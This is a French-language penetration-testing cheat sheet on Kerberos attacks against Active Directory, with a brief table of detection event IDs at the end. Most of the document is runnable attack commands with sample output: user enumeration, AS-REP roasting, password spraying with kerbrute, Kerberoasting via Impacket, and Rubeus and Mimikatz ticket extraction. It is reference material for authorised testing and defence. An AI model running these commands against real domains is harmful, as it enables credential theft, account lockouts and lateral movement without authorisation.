

Voici une représentation du flux d'attaque lié à l'énumération Kerberos :



## Détection du service Kerberos

L'identification du port 88 est la première étape pour confirmer la présence d'un contrôleur de domaine.

### Scanner les ports avec Nmap

```bash
nmap -p 88 --script=krb5-enum-users target.com
```

Sortie :

```text
88/tcp open  kerberos-sec Microsoft Windows Kerberos (Active Directory)
```

## Analyse des politiques de verrouillage de compte (Account Lockout Policy)

Avant toute énumération intensive, il est crucial de déterminer le seuil de verrouillage des comptes pour éviter de bloquer les utilisateurs légitimes.

### Requête via RPC (si authentifié)

```bash
rpcclient -U "" -N target.com
rpcclient $> querydominfo
```

Rechercher les valeurs **Min password length** et **Account lockout threshold**. Si le seuil est bas (ex: 5 tentatives), réduire la cadence des outils comme **Kerbrute**.

## Énumération des utilisateurs (AS-REP Roasting)

L'**AS-REP Roasting** cible les comptes configurés avec l'option **Do not require Kerberos preauthentication**. Cette technique est étroitement liée aux concepts abordés dans **AS-REP Roasting**.

### Tester l'AS-REP Roasting avec Impacket

```bash
GetNPUsers.py -dc-ip target.com -no-pass -usersfile users.txt target.com/
```

> [!info]
> L'**AS-REP Roasting** ne nécessite aucune authentification préalable.

Sortie :

```text
$krb5asrep$23$admin@DOMAIN:...
```

## Vérification de l'existence d'utilisateurs

La vérification de comptes valides est une étape préliminaire avant les attaques de type **Password Attacks**.

### Énumération avec Kerbrute

```bash
kerbrute userenum -d target.com --dc target.com users.txt
```

> [!danger]
> Attention au verrouillage de compte lors de l'énumération intensive avec **Kerbrute**.

Sortie :

```text
[+] VALID USERNAME: administrator@target.com
[+] VALID USERNAME: john@target.com
```

## Techniques de Password Spraying via Kerberos

Le **Password Spraying** consiste à tester un mot de passe unique contre une liste d'utilisateurs pour éviter le verrouillage de compte.

### Spraying avec Kerbrute

```bash
kerbrute passwordspray -d target.com users.txt "Password123!"
```

Cette méthode est préférable à une attaque par force brute classique car elle limite le nombre de tentatives par utilisateur.

## Énumération des services (SPN Scanning)

Le **SPN Scanning** permet d'identifier les services associés à des comptes de service, une étape cruciale pour le **Kerberoasting**.

### Lister les SPN avec Impacket

```bash
GetUserSPNs.py -dc-ip target.com target.com/user -password Password123
```

> [!warning]
> Le **Kerberoasting** nécessite un compte valide pour requêter les **SPN**.

Sortie :

```text
ServiceName: HTTP/server.target.com
AccountName: webadmin
Hash: $krb5tgs$23$...
```

## Analyse des tickets TGT/TGS (mimikatz/rubeus)

Une fois un accès obtenu, l'analyse des tickets en mémoire permet d'extraire des informations sur les privilèges.

### Extraction avec Rubeus (Windows)

```powershell
.\Rubeus.exe triage
.\Rubeus.exe dump /service:krbtgt /nowrap
```

### Extraction avec Mimikatz (Windows)

```powershell
sekurlsa::tickets /export
```

## Authentification anonyme

L'analyse des réponses du contrôleur de domaine permet de déterminer si l'énumération est facilitée par des configurations permissives.

### Connexion avec kinit

```bash
kinit -S host/target.com unknownuser
```

Sortie :

```text
Client unknownuser not found in database
```

> [!note]
> Vérifier la date du domaine pour les vulnérabilités de type **PAC** (**MS14-068**).

## Défenses et détection (Event IDs)

La surveillance des logs du contrôleur de domaine permet de détecter ces activités.

| Événement | Description |
| :--- | :--- |
| **4768** | Demande de ticket TGT (AS-REQ) |
| **4769** | Demande de ticket de service TGS (TGS-REQ) |
| **4771** | Échec de pré-authentification Kerberos (Indicateur de force brute) |
| **4740** | Compte utilisateur verrouillé |

## Synthèse des techniques

| Étape | Commande |
| :--- | :--- |
| Détecter Kerberos | `nmap -p 88 --script=krb5-enum-users target.com` |
| AS-REP Roasting | `GetNPUsers.py -dc-ip target.com -no-pass -usersfile users.txt target.com/` |
| Énumération utilisateurs | `kerbrute userenum -d target.com --dc target.com users.txt` |
| Password Spraying | `kerbrute passwordspray -d target.com users.txt "Password123!"` |
| SPN Scanning | `GetUserSPNs.py -dc-ip target.com target.com/user -password Password123` |
| Authentification anonyme | `kinit -S host/target.com unknownuser` |

Ces méthodes s'inscrivent dans une stratégie globale d'**Active Directory Enumeration**, **Password Attacks**, **Kerberoasting**, **AS-REP Roasting** et de **Lateral Movement**.